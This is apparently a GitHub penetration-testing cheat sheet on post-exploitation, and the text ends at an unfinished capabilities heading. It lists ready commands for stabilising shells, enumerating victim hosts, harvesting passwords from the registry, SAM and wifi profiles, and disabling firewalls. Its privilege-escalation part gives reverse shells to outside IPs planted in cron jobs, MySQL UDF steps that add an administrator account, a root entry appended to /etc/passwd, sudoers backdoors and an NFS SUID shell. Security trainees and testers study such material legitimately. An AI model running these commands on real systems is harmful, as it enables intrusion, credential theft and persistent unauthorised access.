







<h1 align="center"> Post Exploitation </h1>

-   **Data Enumeration of the victim system**

-   **ping sweeping and exploring other live hosts in the network to pivot**

-   **stabilizing shell**

-   **privilege escalation**

-   **file transfer**

-   **port forwarding**

-   **empire framework**

-   **Path the hash**

-   **pivoting**

-   **persistence**

-   **covering tracks**

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

-   <h2 align="center">Exploring other devices on the network (ping sweeping the victim's network)</h2>

    -   arp -a 

    -   ifconfig / ipconfig

    -   route

    -   netstat

    -   METASPLOIT : 

        -   use post/multi/gather/ping\_sweep 

        -   meterpreter \> run arp\_scanner --r \[network\_ip/24\]

        -   use auxiliary/scanner/portscan/tcpmsf    -\> after discovering the live hosts port scan to see open ports at each host

-   <h2 align="center">Stabilizing shell (shell escaping , Spawning a TTY Shell)</h2>

    -   **Python**

        -   python -c \'import pty; pty.spawn(\"/bin/bash\")\'

    -   **Perl**

        -   perl -e \'exec \"/bin/bash\" ;\'

        -   perl: exec \"/bin/sh\";

    -   **Ruby**

        -   ruby: exec \"/bin/sh\";

    -   **Socat**

        -   socat file:\`tty\`,raw,echo=0 tcp-listen:4444 \#listen

        -   socat exec:\'bash -li\',pty,stderr,setsid,sigint,sane tcp:127.0.0.1:4444 \#connect

    -   **Awk**

        -   awk \'BEGIN {system(\"/bin/sh\")}\'

    -   **find**

        -   find / -exec /usr/bin/awk \'BEGIN {system(\"/bin/sh\")}\' \\;

    -   **vim**

        -   :!bash   or

        -   :set shell=**/**bin**/**bash:shell

    -   **Nmap**

        -   Nmap --interactive

        -   :sh

    -   **{man , less , more}**

        -   !/bin/sh /

    -   **From within IRB**

        -   exec \"/bin/sh\"

    -   **From within Busybox**

        -   /bin/busybox telnetd -\|/bin/sh -p9999

    -   **From within Tcpdump**

        -   echo \$'id\\n/bin/netcat \$ip 443 --e /bin/bash' \> /tmp/.test\
            chmod +x /tmp/.test\
            sudo tcpdump --ln --I eth- -w /dev/null --W 1 --G 1 --z /tmp/.tst --Z root

-   <h2 align="center">Data Enumeration of the victim system</h2>

-   **Enumerating users:**

    -   **Windows**

        -   whoami

        -   echo %username%        -\> same as whoami

        -   net user \<user\>     -\> know info about that user

        -   whoami /all            -\> know info about that user

        -   net user               -\> know the users on the pc

        -   Get-LocalUser \| ft Name,Enabled,LastLogon    -\> powershell same as net user

        -   Get-ChildItem C:\\Users -Force \| select Name    -\> powershell same as net user

        -   net localgroup   // know the groups on the pc

        -   Get-LocalGroup \| ft name   -\> powershell same as net localgroup

        -   net localgroup Administrators -\> see who are the users that are in the admin group

        -   Get-LocalGroupMember Administrators \| ft Name, PrincipalSource

        -   List user privileges

            -   whoami /priv

            -   whoami /groups

    -   **Linux**

        -    id

        -   whoami

        -   cat /etc/passwd   cat /etc/shadow

-   **Enumerating the Hostname** **:**  

    -   A machine's hostname can often provide clues about its functional roles. More often than not, the hostnames will include identifiable abbreviations such as web for a web server, db for a database server, dc for a domain controller, etc.

    -   hostname

-   **enumerating os and architecture :**

    -   **Linux**

        -   uname -a     

        -   cat /etc/\*-release

        -   cat /etc/issue

        -   cat /proc/version

    -   **windows**

        -   systeminfo  

        -   systeminfo \| findstr /B /C:\"OS Name\" /C:\"OS Version\" /C:\"System Type"

-   **Enumerating Running Processes and Services :**

    -   **Windows**

        -   Net start

        -   Wmic service list brief

        -   Tasklist /v

        -   tasklist /SVC   -\> The /SVC flag will return processes that are mapped to a specific Windows service

            -   Keep in mind that this output does not list processes run by privileged users. On Windows-based systems, we'll need high privileges to gather this information, which makes the process more difficult. On Linux, we can list system processes (including those run by privileged users)

    -   **Linux**
	
        -   ps -aux    
	
        -   ps --ef
	
        -   top
	
        -   ps aux \| grep root -\> Look for vulnerable/privileged components such as: mysql, sudo, udev, python
	
        -   ps --ef \| grep root

-   **Enumerating Networking Information :**

    -    The next step in our analysis of the target host is to review available network interfaces, routes, and open ports. This information can help us determine if the compromised target is connected to multiple networks and therefore could be used as a pivot. In addition, the presence of specific virtual interfaces may indicate the existence of virtualization or antivirus software.

    -    ifconfig /all   \| ip a

    -   Get-NetIPConfiguration \| ft InterfaceAlias,InterfaceDescription,IPv4Address -\> same as ipconfig /all

    -   Get-DnsClientServerAddress -AddressFamily IPv4 \| ft -\> same as ipconfig /all

    -   Route \# add print in windows

    -   Get-NetRoute -AddressFamily IPv4 \| ft DestinationPrefix,NextHop,RouteMetric,ifIndex  -\> same as route 

    -   netstat -ano    \|  ss -anp

    -    arp --A

    -   Get-NetNeighbor -AddressFamily IPv4 \| ft ifIndex,IPAddress,LinkLayerAddress,State -\> same as arp -a

-   **Enumerating Firewall Status and Rules :**

    -   **windows**

        -   netsh advfirewall show currentprofile        -\> inspect the current firewall profile

        -   netsh firewall show state

        -   netsh firewall show config

        -   netsh advfirewall firewall show rule name=all  -\> list firewall rules

        -   Disable firewall

            -   netsh advfirewall set allprofiles state off

            -   netsh firewall set opmode disable (old windows versions)

    -   **Linux**

        -   iptables        -\> we must have root privileges to list firewall rules with iptables   (rules are saved in /etc/iptables)

-   **Enumerating Scheduled Tasks :**

    -   **Linux**

        -   ls -lah /etc/cron\*  -\> view scheduled tasks

        -    cat /etc/crontab

        -   crontab -l

        -   ls -alh /var/spool/cron 

        -   ls -al /etc/ \| grep cron

        -   ls -al /etc/cron\*

        -   cat /etc/cron\*

        -   cat /etc/at.allow 

        -   cat /etc/at.deny 

        -   cat /etc/cron.allow 

        -   cat /etc/cron.deny

        -   cat /etc/crontab 

        -   cat /etc/anacrontab

        -   cat /var/spool/cron/crontabs/root

    -   **windows**

        -   schtasks /query /fo LIST /v   

        -   schtasks /query /fo LIST 2\>nul \| findstr TaskName

        -   Get-ChildItem \'C:\\Program Files\', \'C:\\Program Files (x86)\' \| ft Parent,Name,LastWriteTimeGet-ScheduledTask \| where {\$\_.TaskPath -notlike \"\\Microsoft\*\"} \| ft TaskName,TaskPath,State

-   **Startup programs**

    -   wmic startup get caption,command

    -   reg query HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run

    -   reg query HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce

    -   dir \"C:\\Documents and Settings\\All Users\\Start Menu\\Programs\\Startup\"

    -   dir \"C:\\Documents and Settings\\%username%\\Start Menu\\Programs\\Startup\"

-   **Environmental variable enumeration :**

    -   **Linux**

        -   cat /etc/profile

        -   cat /etc/bashrc

        -   cat \~/.bash\_profile

        -   cat \~/.bashrc

        -   cat \~/.bash\_logout

        -   env

    -   **windows**

        -   set  

        -   Get-ChildItem Env: \| ft Key,Value -\> powershell same as set

-   **Enumerating Installed Applications and Patch Levels**

    -   **Linux**

        -   dpkg -l    

        -   rpm --qa -\> for fedora , redhat

        -   cd /usr/local/

        -   cd /usr/local/src

        -   cd /usr/local/bin

        -   cd /opt/

        -   cd /home

        -   cd /var/

        -   cd /usr/src/

    -   **Windows**

        -   wmic product get name, version, vendor   

        -   Get-ChildItem \'C:\\Program Files\', \'C:\\Program Files (x86)\' \| ft Parent,Name,LastWriteTime \# powershell

        -   Get-ChildItem -path Registry::HKEY\_LOCAL\_MACHINE\\SOFTWARE \| ft Name \# powershell

        -   Extract patches and updates (usefull for kernel Exploits.)

            -   wmic qfe get Caption,Description,HotFixID,InstalledOn   

            -   Then we will look for privilege escalation exploits and look up their respective KB patch numbers found in HotFixID Ex : KiTrap0D (KB979682), MS11-011 (KB2393802), MS10-059 (KB982799), MS10-021 (KB979683), MS11-080 (KB2592799).. Using the KB patch numbers you can grep the installed patches to see if any are missing.

-   **Enumerating Readable/Writable Files and Directories  :**

    -   **windows**

        -   There are a number of utilities and tools that can automate this task for us on a Windows platform. AccessChk from SysInternals475 is arguably the most well-known and often used tool for this purpose

        -   accesschk.exe -uws \"Everyone\" \"C:\\Program Files\"     

        -   Get-ChildItem \"C:\\Program Files\" -Recurse \| Get-ACL \| ?{\$\_.AccessToString -match \"Everyone\\sAllow\\s\\sModify\"}  -\>with PowerShell

    -   **Linux**

        -   find / -writable -type d 2\>/dev/null

        -   find / -perm -222 -type d 2\>/dev/null

        -   find / -perm -o w -type d 2\>/dev/null

        -   find / -perm -o x -type d 2\>/dev/null

-   **weak folder permission**

    -   **Full Permissions for \'Everyone\' on Program Folders**

        -   icacls \"C:\\Program Files\\\*\" 2\>nul \| findstr \"(F)\" \| findstr \"Everyone\"icacls \"C:\\Program Files (x86)\\\*\" 2\>nul \| findstr \"(F)\" \| findstr \"Everyone\"

        -   icacls \"C:\\Program Files\\\*\" 2\>nul \| findstr \"(F)\" \| findstr \"BUILTIN\\Users\"icacls \"C:\\Program Files (x86)\\\*\" 2\>nul \| findstr \"(F)\" \| findstr \"BUILTIN\\Users\"

    -   **Modify Permissions for Everyone on Program Folders**

        -   icacls \"C:\\Program Files\\\*\" 2\>nul \| findstr \"(M)\" \| findstr \"Everyone\"icacls \"C:\\Program Files (x86)\\\*\" 2\>nul \| findstr \"(M)\" \| findstr \"Everyone\"

        -   icacls \"C:\\Program Files\\\*\" 2\>nul \| findstr \"(M)\" \| findstr \"BUILTIN\\Users\"

        -   icacls \"C:\\Program Files (x86)\\\*\" 2\>nul \| findstr \"(M)\" \| findstr \"BUILTIN\\Users\"

    -   **writable folder permissions with accesschk**

        -   accesschk.exe -qwsu \"Everyone\" \*

        -   accesschk.exe -qwsu \"Authenticated Users\" \*

        -   accesschk.exe -qwsu \"Users\" \*

    -   **weak service permissions with accesschk**

        -   accesschk.exe -uwcqv \"Everyone\" \*

        -   accesschk.exe -uwcqv \"Authenticated Users\" \*

        -   accesschk.exe -uwcqv \"Users\" \*

-   **Enumerating Binaries That Auto Elevate  :**

    -   **windows**

        -   is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions

        -   reg query HKEY\_CURRENT\_USER\\Software\\Policies\\Microsoft\\Windows\\Installer  /v AlwaysInstallElevated

        -    reg query HKEY\_LOCAL\_MACHINE\\Software\\Policies\\Microsoft\\Windows\\Installer   /v AlwaysInstallElevated

    -   **Linux**

        -   find / -perm -u=s -type f 2\>/dev/null      -\> suid

-   **Enumerate clear text passwords**

    -   **Windows**

        -   findstr /si password \*.txt

        -   findstr /si password \*.xml

        -   findstr /si password \*.ini

        -   Unattended installs

            -   In the process of automating different tasks, system administrators often knowingly or unknowingly write clear-text passwords in files or in the registry of accounts, which are used for authenticating to different services.

            -   One example is that when administrators want to deploy images on a large number of devices without user interaction (called unattended installations) they use the Windows Deployment Services. However, this requires that the local system administrator's password or other, privileged account passwords are stored in one or more of the following locations:

            -   type c:\\sysprep.inf

            -   type c:\\sysprep\\sysprep.xml

            -   type c:\\unattend.xml

            -   type %WINDIR%\\Panther\\Unattend\\Unattended.xml

            -   type %WINDIR%\\Panther\\Unattended.xml

        -   Search in registry

            -   reg query HKLM /f password /t REG\_SZ /s

            -   reg query HKCU /f password /t REG\_SZ /s

            -   reg query \"HKLM\\SOFTWARE\\Microsoft\\Windows NT\\Currentversion\\Winlogon\"

            -   reg query \"HKCU\\Software\\ORL\\WinVNC3\\Password\" \# VNC credentials

            -   reg query \"HKLM\\SYSTEM\\Current\\ControlSet\\Services\\SNMP\" \# SNMP Parameters

            -   reg query \"HKCU\\Software\\SimonTatham\\PuTTY\\Sessions\" \# Putty proxy creds

            -   reg query \"HKCU\\Software\\ORL\\WinVNC3\\Password\" \# VNC credentials

      
        -   Sam file location (if accessable)

            -   type %SYSTEMROOT%\\repair\\SAM
            
            -   type %SYSTEMROOT%\\System32\\config\\RegBack\\SAM
            
            -   type %SYSTEMROOT%\\System32\\config\\SAM
            
            -   type %SYSTEMROOT%\\repair\\system
            
            -   type %SYSTEMROOT%\\System32\\config\\SYSTEM
            
            -   type %SYSTEMROOT%\\System32\\config\\RegBack\\system

        -   Metasploit

            -   post/windows/gather/credentials/gpp

            -   post/windows/gather/enum\_unattend

    -   **Linux**

        -   grep \--color=auto -rnw \'/\' -ie \"PASSWORD\" \--color=always 2\> /dev/null

        -   find . -type f -exec grep -i -I \"PASSWORD\" {} /dev/null \\;

-   **powershell history**

    -   type \$env:APPDATA\\Microsoft\\Windows\\PowerShell\\PSReadLine\\ConsoleHost\_history.txt

-   **List all network shares**

    -   net share

-   **LIST ALL drivers:** -\> useful in kernel exploitation

    -   **Linux**

        -   Lsmod

        -   /sbin/modinfo \[module\]

    -   **Windows**

        -   DRIVERQUERY

-   **List all drives**

    -   wmic logicaldisk get caption \|\| fsutil fsinfo drives

    -   wmic logicaldisk get caption,description,providername

    -   Get-PSDrive \| where {\$\_.Provider -like \"Microsoft.PowerShell.Core\\FileSystem\"}\| ft Name,Root

-   **Unmounted file system**

    -   **Linux**

        -   mount -l

        -   cat /etc/fstab

        -   /bin/lsblk

    -   **windows**

        -   mountvol

-   **is there a printer ?**

    -   lpstat -a

-   **wifi password**

    -   netsh wlan show profile

    -   netsh wlan show profile \<SSID\> key=clear

-   **Print Proof**

    -   **Windows**

        -   echo. & echo. & echo whoami: & whoami 2\> nul & echo %username% 2\> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type \"C:\\Documents and Settings\\Administrator\\Desktop\\proof.txt\"

    -   **linux**

        -   echo \" \";echo \"uname -a:\";uname -a;echo \" \";echo \"hostname:\";hostname;echo \" \";echo \"id\";id;echo \" \";echo \"ifconfig:\";/sbin/ifconfig -a;echo \" \";echo \"proof:\";cat /root/proof.txt 2\>/dev/null; cat /Desktop/proof.txt 2\>/dev/null;echo \" \"

<h2 align="center"> Privilege escalation</h2>

<h2 align="center"> Linux privilege Escalation </h2>

"Vertical/horizontal privilege escalation"

-   **kernel exploitation**
    > Kernel exploits are programs that leverage kernel vulnerabilities in order to execute arbitrary code with elevated permissions "

    -   Get the version of the target's kernel : uname -a

    -   Search for the exploit to the vulnerable kernel

        -   searchsploit Linux kernel \<version found\>

        -   exploitdb Linux kernel \<version found\>

    -    compile the exploit : gcc 43418.c -o

    -    Transfer the exploit to the target machine and run it

    -   Ex of kernel exploits

        -   CVE-2016-5195 - Dirty - Linux Kernel \<= 3.19.0-73.8

            -   <https://dirtycow.ninja/>

        -   CVE-2010-3904 - Linux RDS Exploit - Linux Kernel \<= 2.6.36-rc8

            -   <https://www.exploit-db.com/exploits/15285/>

        -   Linux Kernel \<= 2.6.37 \'Full-Nelson.c\'

            -   <https://www.exploit-db.com/exploits/15704/>

        -   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 \< 3.2.2

            -   <https://git.zx2c4.com/CVE-2012-0056/about/>

-   **Files misconfiguration**

    -   exploiting sudo rights/user //sudo makes you run any commands as a root from any user

    -   sudo -l // Prints the commands which we are allowed to run as SUDO by any user

    -   if you find something like ( ALL : ALL ) ALL    //this means you have sudo access to all system

        -    you only need to \"sudo -u root /bin/bash\"  //  then you will be root

    -   if i found tools like :{ /urs/bin/man ,/usr/bin/nmap ,/usr/bin/vim.gtk , /usr/bin/find ,

        >  (less/more/man  are the same)
        >
        > {less / more / man}
        >
        > {find , mv , cp , nano}   
        >
        > {python / perl / ruby /lua}
        >
        > {gdb , }

    -   sudo /usr/bin/find /etc/passwd -exec /bin/bash \\;         //then you will be root

    -   sudo /usr/bin/{man/less/more}  then add  !sh   at the end       //then you are root but no tty

    -   sudo nmap \--interactive   then !sh // then you are root

    -   sudo /usr/bin/vim.gtk test.txt  then add :sh                      //then you are root

    -   sudo perl -e \'exec \"/bin/bash\" ;\' //then you are root

    -   sudo python -c \'import pty;pty.spawn(\"/bin/bash\")\' //then you are root

    -   sudo ruby -e \'exec \"/bin/bash\";\' //then you are root

-   **Exploiting services which are running as root**

    -   Ps \| grep root

    -   **Ex : Mysql**

    -   Change mysql to run as root

        -   chown -R root:root /var/lib/mysql

        -   leafpad /etc/mysql/mariadb.conf.d/50-server.cnf 

        -   Change user=mysql to user=root and save the file

        -   service mysql restart

    -   Mysql running as root :

        -   With user defined function

        -   Download and compile the binary

            -   wget <http://0xdeadbeef.info/exploits/raptor_udf2.c>

            -   gcc -g -c raptor\_udf2.c

            -   gcc -g -shared -Wl,-soname,raptor\_udf2.so -o raptor\_udf2.so raptor\_udf2.o -lc

        -   Access the database service and select the database to use.

            -   mysql -u root -p

            -   use mysql;

        -   check the plugin directory path of mysql

            -   We need to find the plugin directory of mysql. We will store our custom library file to the plugin directory.

            -   show variables like \'%plugin\_dir%\';

        -   Copy/create the raptor\_udf2.so in the directory specified in the plugin\_dir variable.

            -   create table foo(line blob);

            -   insert into foo values(load\_file(\'/tmp/raptor\_udf2.so\'));

            -   select \* from foo into dumpfile '/usr/lib/raptor\_udf2.so'; \--\> plugin directory

        -   Create the User Defined Function.

            -   create function do\_system returns integer soname \'raptor\_udf2.so\';

            -   select \* from mysql.func;

        -   Test that the UDF works correctly.

            -   select do\_system('nc 127.0.0.1 9090 -e /bin/bash&');

            -   select do\_system ('bash -i \>& /dev/tcp/10.0.0.1/443\')

        -   Reference

            -   <https://redteamnation.com/mysql-user-defined-functions/>

            -   <https://www.exploit-db.com/exploits/1518>

            -   <https://recipeforroot.com/mysql-to-system-root/>

        -   **Another method**

            -   Instead of using raptor we can use A UDF library with functions to interact with the operating system. These functions allow you to interact with the execution environment in which MySQL runs.

                -   udf/mysql/linux/32/lib\_mysqludf\_sys.so (linux 32 bit)

                -   udf/mysql/linux/64/lib\_mysqludf\_sys.so (linux 64 bit)

                -   udf/mysql/windows/32/lib\_mysqludf\_sys.dll (windows 32 bit)

                -   udf/mysql/windows/64/lib\_mysqludf\_sys.dll (windows 64 bit)

            -   Git clone <https://github.com/mysqludf/lib_mysqludf_sys.git>

            -   gcc -DMYSQL\_DYNAMIC\_PLUGIN -fPIC -Wall -m64 -I/usr/include/mysql -I. -shared lib\_mysqludf\_sys.c -o lib\_mysqludf\_sys.so

            -   Ex of usage in windows

                -   USE mysql;

                -   CREATE TABLE npn(line blob);

                -   INSERT INTO npn values(load\_files(\'[C://temp //lib\_mysqludf\_sys.dll]\'));

                -   SELECT \* FROM mysql.npn INTO DUMPFILE \'[c://windows//system32//lib\_mysqludf\_sys\_32.dll][C://temp //lib\_mysqludf\_sys.dll]\';

                -   CREATE FUNCTION sys\_exec RETURNS integer SONAME \'lib\_mysqludf\_sys\_32.dll\';

                -   SELECT sys\_exec(\"net user npn npn12345678 /add\");

                -   SELECT sys\_exec(\"net localgroup Administrators npn /add\");

                -   

-   **SUID /GUID**

    -   suid permission //files that can be ran from any user as root

    -   find / -perm -4000  2\>/dev/null //4000 means suid bit is set

    -   find / -type f  -perm -u=s 2\>/dev/null // find suid

    -   find / -type f  -perm -g=s 2\>/dev/null // find guid

    -   It prints the executables which have SUID bit set  if we see something like {man/less/more/ls/nmap/vim.gtk/......} we can use them

    -   ex:  /usr/bin/vim.gtk /etc/sudoers      //edit sudo file to give us sudo access to everything

        -   add  user ALL=(ALL:ALL) ALL    then type sudo -u root /bin/bash       //and you are root 

    -   nmap running as a  root privilege

        -   nmap -- interactive

        -   !sh

    -   This website collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate privileges and many other functions

        -   <https://gtfobins.github.io/>

-   **Exploiting configured cron jobs**

    -   Check cronjob files for scheduled scripts

    -   Check for files permissions of the tasks found -\> ls -lah 

    -   if we can modify it and we can get a reverse shell by adding this code

        -   echo \"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2\>&1\| nc 10.11.0.4 1234 \>/tmp/f\" \>\> file.sh  or

        -   echo \"nc -nv 192.168.100.37 4444 -e /bin/bash\" \> /tmp/file.sh

-   **writable /etc/passwd**

    -   echo \'root2::0:0:root:/root:/bin/bash\' \>\> /etc/passwd; su root2

-   **writable /etc/sudoers**

    -   echo \"username ALL=(ALL:ALL) ALL\"\>\>/etc/sudoers

    -   echo \"username ALL=(ALL) NOPASSWD: ALL\" \>\>/etc/sudoers  \# use SUDO without password

    -   echo \"username ALL=NOPASSWD: /bin/bash\" \>\>/etc/sudoers

-   **writable path abuse**

    -   If you find that you can write inside some folder of the \$PATH you may be able to escalate privileges by creating a backdoor inside the writable folder with the name of some command that is going to be executed by a different user (root ideally) and that is not loaded from a folder that is located previous to your writable folder in \$PATH.

-   **Nfs root squashing**

    -   With NFS, there is something that should be implemented called "root squashing". What "root squashing" does is prevent a remote root user from having root access to the network file system. 

    -   Ex :  If you are running as root on your personal desktop computer, and you connect to an NFS volume that doesn't have root squash enabled, the file system will think you are a root user to it, and will provide full read/write access to the file system. On the other hand, if you connect to an NFS that has root squash enabled, the file system will not acknowledge your root user as valid, and will instead assign you the user of nfsnobody. With the nfsnobody user, you will have whatever permissions the folder has been given

    -   If you are able to read the contents of the **/etc/exports** file on the target, you will be able to see different file shares available for mounting along with configurations settings such as if **root squash** is enabled.

    -   Exploitation

        -   apt-get install nfs-common

        -   apt-get install cifs-utils

        -   remote check the name of the folder

            -   showmount -e 10.10.10.10

            -   \$ /shared

        -   Mounting

            -   mkdir /tmp/nfsdir \# create dir

            -   mount -t nfs 10.10.10.10:/shared /tmp/nfsdir \# mount directory

            -   cd /tmp/nfsdir

        -   Exploit by drop that code in the mount folder

            -   echo \'int main() { setgid(0); setuid(0); system(\"/bin/bash\"); return 0; }\' \> /tmp/nfsdir/suid-shell.c

            -   gcc suid-shell.c -o suid-shell \#compile

            -   chmod +s suid-shell \# set suid permission

        -   Another exploit method

            -   cp /bin/bash .

            -   chmod +s bash

    -   On the target machine, as any non-privileged user, we run the executable program and get root.

-   **Capabilities**  

    -   **What is capabilities**

        -   are binaries or programs that has some high privilege but no full privileges Ex Think of your smartphone,. When you install an application from the App/Play store, you're granted a list of permissions before installing it. You may even be prompted when you're using it for some specific intrusive permission, such as location detection.  This is a little bit like what capabilities are for. Rather than granting a file full root privileges when ran with a SUID bit or sudo, we can instead give it specific powers. and privileges

        -   **set capability to file**

            -   setcap \[cap\_name\]=+ep filename

            -   setcap cap\_net\_bind\_service=+ep filename

            -   The "+ep" means you're adding the capability ("-" would remove it) 

        -   **get file capabilities**

            -   search for files with capabilities   

                -   getcap -r / 2\>/dev/null

            -   get capabilities of a specific file   

                -   getcap \[filename\]

        -   **Ex of priv esc with cap\_setuid capability**

